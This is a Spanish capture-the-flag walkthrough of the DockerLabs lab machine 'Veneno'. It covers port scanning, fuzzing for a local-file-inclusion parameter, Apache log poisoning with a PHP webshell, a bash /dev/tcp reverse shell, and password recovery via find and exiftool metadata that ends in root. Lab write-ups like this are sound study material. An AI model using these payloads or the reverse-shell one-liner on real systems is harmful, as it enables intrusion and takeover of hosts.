

**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `PHP` `Gobuster` `Wfuzz` `LFI` `Log Poisoning` `RCE` `Find` `Exiftool` `Steganography`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip veneno.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh veneno.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-09 15:57 +0100
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 89:9c:7b:99:95:b6:e8:03:5a:6a:d4:69:69:4a:8d:35 (ECDSA)
|_  256 ec:ec:90:44:4e:66:64:22:f6:8b:cd:29:d2:b5:60:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.87 seconds
```

Identificamos los puertos abiertos `22` (SSH) y `80` (HTTP).

Accedemos a la máquina objetivo a través del puerto `80` (HTTP) y nos encontramos con una página de Apache por defecto.

## GOBUSTER

Realizamos `fuzzing` de directorios para intentar localizar directorios o archivos ocultos.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:

```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              html,zip,php,txt,bak,sh
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10671]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/problems.php         (Status: 200) [Size: 10671]
```

Encontramos `/uploads`, pero está vacío.

También localizamos un archivo `problems.php` que, a primera vista, no revela ninguna información.

Sin embargo, decidimos comprobar si este archivo `.php` es vulnerable a `LFI`.

## LFI

Intentamos incluir el archivo local `/etc/passwd` a través de `problems.php`. Para ello, primero necesitamos `fuzzear` un parámetro que nos lo permita.

```bash
wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -u http://172.17.0.2/problems.php?FUZZ=../../../../../etc/passwd --hc 404 --hl 363
```

Info:

```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/problems.php?FUZZ=../../../../../etc/passwd
Total requests: 220559

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                    
=====================================================================

000007815:   200        25 L     32 W       1245 Ch     "backdoor"
```

Finalmente, encontramos el parámetro `backdoor`.

Incluimos `/etc/passwd` utilizando el parámetro `backdoor`.

```
http://172.17.0.2/problems.php?backdoor=../../../../etc/passwd
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
carlos:x:1001:1001:,,,:/home/carlos:/bin/bash
```

Logramos visualizar su contenido, enumerando un único usuario en el sistema: `carlos`.

Intentamos realizar un ataque de fuerza bruta contra el servicio `SSH` con el usuario `carlos`, pero no obtenemos credenciales válidas.

Procedemos a investigar qué más archivos podemos incluir aprovechando la vulnerabilidad. Probamos a visualizar archivos de logs como `access.log` o `error.log`.

```
http://172.17.0.2/problems.php?backdoor=../../../../var/log/apache2/error.log
```



Confirmamos que podemos visualizar el `error.log`.

## LOG POISONING

Tras identificar que el servidor refleja nuestras peticiones fallidas con `GOBUSTER` en el archivo `error.log`, el siguiente paso es intentar un `Log Poisoning`.

Esta técnica consiste en envenenar el archivo de registro con código `PHP` malicioso para que, al ser incluido mediante el `LFI`, el servidor lo ejecute.

Realizamos una petición que contiene un pequeño stager en `PHP`. Intentaremos ejecutar el comando `id` para confirmar la `RCE`.

```
http://172.17.0.2/<?php system('id'); ?>
```

Enviamos la petición URL encodeada:

```
http://172.17.0.2/%3c%3fphp%20system('id');%20%3f%3e.php
```

Al realizar esta petición, el servidor genera un error, ya que el archivo no existe, y guarda la entrada en `error.log`.


Como se observa en la captura, el servidor no solo nos muestra el error, sino que interpreta nuestra instrucción y nos devuelve el resultado del comando `id`.

Una vez confirmada la `RCE`, podemos optimizar el ataque inyectando una `webshell` básica para no tener que envenenar el log constantemente.

```
http://172.17.0.2/%3c%3fphp%20system($_GET['cmd']);%20%3f%3e.php
```

Esto nos permitirá ejecutar cualquier comando simplemente añadiendo `&cmd=whoami` a la URL.

Ejemplo:

```
http://172.17.0.2/problems.php?backdoor=../../../../../../../var/log/apache2/error.log&cmd=id
```

Una vez verificado que tenemos ejecución de comandos a través del parámetro `cmd`, el objetivo final es obtener una `Reverse Shell`.

Ponemos un `listener` en nuestra máquina atacante.

```bash
sudo nc -nlvp 4444
```

Para entablar la conexión utilizaremos un one-liner de `Bash`.

```bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"
```

Por supuesto, es necesario aplicarle `URL Encode`.

```
http://172.17.0.2/problems.php?backdoor=../../../../../../../var/log/apache2/error.log&cmd=bash+-c+%22bash+-i+%3E%26+/dev/tcp/172.17.0.1/4444+0%3E%261%22
```

Info:

```
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 52758
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ef25e2f8a7f6:/var/www/html$ whoami
www-data
www-data@ef25e2f8a7f6:/var/www/html$
```

Al ejecutarse, recibimos la shell interactiva como el usuario `www-data`.

## TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```

`ctrl Z`

```bash
stty raw -echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export BASH=bash
```

## ESCALADA DE PRIVILEGIOS

Una vez como el usuario `www-data`, enumeramos el directorio `/var/www/html` y encontramos un archivo llamado `antiguo_y_fuerte.txt`:

```
Es imposible que me acuerde de la pass es inhackeable pero se que la tenpo en el mismo fichero desde fa 24 anys. trobala buscala 

soy el unico user del sistema.
```

Este archivo nos ofrece una pista: existe un fichero en el sistema con una antigüedad de 24 años que contiene la contraseña del único usuario del sistema (`carlos`).

Elaboramos un comando con `find` para buscar archivos que tengan 24 años o más de antigüedad.

```bash
find /  -type f -mtime +8760 -print 2>/dev/null
```

Info:

```
/usr/share/viejuno/inhackeable_pass.txt
```

Gracias a este filtro, localizamos el archivo que contiene la contraseña.

```
pinguinochocolatero
```

Utilizamos esta credencial para autenticarnos y migrar al usuario `carlos`.

```bash
su carlos
```

Info:

```
carlos@ef25e2f8a7f6:/$ whoami
carlos
carlos@ef25e2f8a7f6:/$
```

Ya como usuario `carlos`, enumeramos su directorio personal en `/home/carlos`.

```js
carlos@ef25e2f8a7f6:~$ ls
carpeta1    carpeta22  carpeta36  carpeta5   carpeta63  carpeta77  carpeta90
carpeta10   carpeta23  carpeta37  carpeta50  carpeta64  carpeta78  carpeta91
carpeta100  carpeta24  carpeta38  carpeta51  carpeta65  carpeta79  carpeta92
carpeta11   carpeta25  carpeta39  carpeta52  carpeta66  carpeta8   carpeta93
carpeta12   carpeta26  carpeta4   carpeta53  carpeta67  carpeta80  carpeta94
carpeta13   carpeta27  carpeta40  carpeta54  carpeta68  carpeta81  carpeta95
carpeta14   carpeta28  carpeta41  carpeta55  carpeta69  carpeta82  carpeta96
carpeta15   carpeta29  carpeta42  carpeta56  carpeta7   carpeta83  carpeta97
carpeta16   carpeta3   carpeta43  carpeta57  carpeta70  carpeta84  carpeta98
carpeta17   carpeta30  carpeta44  carpeta58  carpeta71  carpeta85  carpeta99
carpeta18   carpeta31  carpeta45  carpeta59  carpeta72  carpeta86
carpeta19   carpeta32  carpeta46  carpeta6   carpeta73  carpeta87
carpeta2    carpeta33  carpeta47  carpeta60  carpeta74  carpeta88
carpeta20   carpeta34  carpeta48  carpeta61  carpeta75  carpeta89
carpeta21   carpeta35  carpeta49  carpeta62  carpeta76  carpeta9
```

Encontramos una gran cantidad de carpetas. Entramos en algunas de ellas manualmente, pero están vacías.

Para identificar cuáles tienen algún contenido, utilizamos el comando `find` nuevamente:

```bash
find . 2>/dev/null
```

Info:

```
.
./.bashrc
./.bash_logout
./.profile
./carpeta70
./carpeta96
./carpeta78
./carpeta22
./carpeta41
./carpeta24
./carpeta23
./carpeta55
./carpeta55/.toor.jpg
./carpeta88
./carpeta83
./carpeta54
./carpeta94
./carpeta15
<--RECORTADO-->
```

Comprobamos que la única carpeta que no está vacía es la 55, la cual contiene una imagen `.jpg`.

Decidimos exfiltrar esta imagen a nuestra máquina atacante para analizarla.

Para ello, levantamos un servidor `HTTP` con `Python3` en la máquina víctima y descargamos el archivo desde nuestra máquina.

```bash
python3 -m http.server 4443
```

```bash
wget 172.17.0.2:4443/.toor.jpg
```

Una vez tenemos el archivo, procedemos a inspeccionar sus metadatos.

```bash
exiftool .toor.jpg
```

Info:

```
ExifTool Version Number         : 13.44
File Name                       : .toor.jpg
Directory                       : .
File Size                       : 628 kB
File Modification Date/Time     : 2024:06:29 02:19:05+02:00
File Access Date/Time           : 2026:01:09 17:15:00+01:00
File Inode Change Date/Time     : 2026:01:09 17:14:48+01:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Quality                   : pingui1730
Image Width                     : 2048
Image Height                    : 2048
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 2048x2048
Megapixels                      : 4.2
```

Encontramos la contraseña de `root` oculta en el campo Image Quality: `pingui1730`.

Finalmente, usamos esta contraseña para autenticarnos como `root`.

```bash
su root
```

Info:

```
root@ef25e2f8a7f6:/home/carlos/carpeta55# whoami
root
root@ef25e2f8a7f6:/home/carlos/carpeta55#
```

Ya somos root!
